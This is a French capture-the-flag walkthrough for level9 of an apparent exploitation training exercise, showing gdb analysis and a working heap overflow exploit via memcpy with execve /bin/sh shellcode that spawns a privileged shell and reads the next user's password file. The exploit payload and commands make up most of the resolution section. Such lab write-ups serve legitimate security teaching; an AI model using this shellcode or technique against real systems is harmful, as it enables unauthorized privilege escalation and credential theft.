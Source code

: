 ## Comportement
- J'ai des droits `level9` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9*`
- En exécutant le binaire (`./level9`), on observe rien de particulier. l’exécutable semble quitter peu importe si nous mettons des arguments ou non.


## Analyse
- Code en C++.
- Utilisation de `memcpy()` qui est vulnerable si l'on ne verifie pas l'input d'abord. On peut l'overflow.
  ```shell
    (gdb) info function
    ...
    0x08048510  memcpy
    0x08048510  memcpy@plt
    ...
  ```
- Pas de call a `/bin/sh` il faut donc probablement utiliser un shellcode.


## Résolution
- On trouve l'offset de `eax`, qui correspond a `argv[1]`, le premier argument passe a `memcpy()` que l'on veut exploit. On utilise le pattern generator : offset de `eax` demarre a 108.
  ```shell
    (gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
    Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

    Program received signal SIGSEGV, Segmentation fault.
    0x08048682 in main ()
    (gdb) info register eax
    eax            0x41366441       1094083649
    (gdb)
  ```
- L'adresse du 1er argument est : `0x0804a00c`. On check notre saut dans la memoire : 
  ```shell
    (gdb) r $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')
    Starting program: /home/user/level9/level9 $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
  ```
- Puisque le programme a fait deux fois  `mov    eax,DWORD PTR [eax]`, on est allé à l'adresse 0x41414141 ("AAAA"). On corrige cela en changeant le début par l'adresse suivante : `\x10\xa0\x04\x08`` et en diminuant de 4 bytes la longueur.
  ```shell
    payload : shell_addr + shellcode + padding + buffer_addr
              [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4
  ```
- On craft notre payload : 
  ```shell
    python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
  ```
- On l'execute: 
  ```shell
    ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
  ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `bonus0`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/bonus0/.pass`)
  - quitter le shell (`exit`)
  - et passer au bonus0 (`su bonus0`) en renseignant ce password.
